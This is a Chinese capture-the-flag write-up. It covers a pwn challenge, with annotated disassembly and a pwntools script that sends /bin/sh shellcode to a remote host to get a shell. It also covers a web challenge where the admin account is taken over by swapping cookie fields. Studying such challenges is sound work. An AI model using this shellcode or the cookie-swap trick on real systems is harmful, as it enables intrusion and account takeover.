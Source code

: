 　　因为是UNIX下编译的软件，所以Win有些不兼容，加上不是自己的电脑，没有过于折腾，装虚拟机什么的。OD MINGW下的GDB载入失败后我直接放弃了。后来看WP的时候才发现，IDA可以载入的，不知道当时怎么想的，完全忘记了IDA这种静态分析。
    
    push    ebp
    mov     ebp, esp
    and     esp, 0FFFFFFF0h		//栈地址对齐16字节
    sub     esp, 30h	//分配48（3*16）字节的内存
    mov     dword ptr [esp+8], 14h ; nbytes		//使14h（20）字节存入esp+8代表的地址中
    lea     eax, [esp+13h]		//eax=esp+13h
    mov     [esp+4], eax    ; buf		//esp+4=eax里的值
    mov     dword ptr [esp], 0 ; fd		//0存入esp代表的地址中
    call    _read	//调用read函数
    mov     byte ptr [esp+26h], 0	//0将esp+26h的地址里的值清0
    lea     eax, [esp+13h]	eax=esp+13h
    mov     [esp], eax      ; s		esp=eax存的值
    call    _strlen		//调用strlen
    mov     [esp+4], eax	//esp+4=eax存的值
    mov     dword ptr [esp], offset format ; "%d welcome\n"		//esp=后面那一串
    call    _printf		//调用prinrf
    lea     eax, [esp+13h]		eax=esp+13h
    mov     [esp+2Ch], eax		//esp+2Ch=eax里的值
    mov     eax, [esp+2Ch]		//eax=esp+2Ch里的值
    call    eax		//调用eax
    leave
    retn

　　以上备注纯手打，同一个语法用了不同的描述方式。未特殊注明的皆指地址，如倒数第四行的eax指eax这个地址里的值为esp+2Ch里的值。由此可以看出，输入20字节。从esp+8村道esp+13。最后将其作为返回值放入eax。还调用了eax。那么我们可以传入20字节的shellcode，就能完成对目标的控制。获取FLAG。

 　　python写的脚本如下：

	from pwn import *
	
	shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x 62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"
	p=remote('9.9.9.12',8888)
	p.sendline(shellcode)
	p.interactive()

　　pwn是python中的一个专门给Pwn开发的工具包，搜索pwntool就出来了。

###你不是管理员

　　题目描述是 You are not a administrator
	
　　不管那么多，打开页面发现有个登录和注册，那就先注册。然后登陆后提示You are not a administrator。很明显还是一个权限控制Web题，所以查看一下cookie。发现有个username和uid。
	<div align="center">
	<img src="/images/posts/CTF-WP/3.png">
    </div> 
　　又有%3D，仿佛我又看见了base64加密替换的套路。然而并不会出同一样的题，所以解码出来是乱码，后来一直看不出来是什么加密方法，然后卡在这里了。后来看ＷriteUp的时候才发现，套路有够骚的。WP里面把cookie的username替换成了uid,发现用户名变成了uid，可以推测根据uid判断用户。由于不知道加密方式无法直接修改cookie，但是可以用username替换uid。所以思路出来了。注册用户名是管理员uid的用户，然后替换就可以了。但是发现注册名有长度限制，太短无法注册。经测试，注册用户为1aaaaa的用户，登陆替换后发现uid成了1，aaaaa被过滤。所以我们可以一直注册下去直到注册到admin获得权限拿到FLAG。
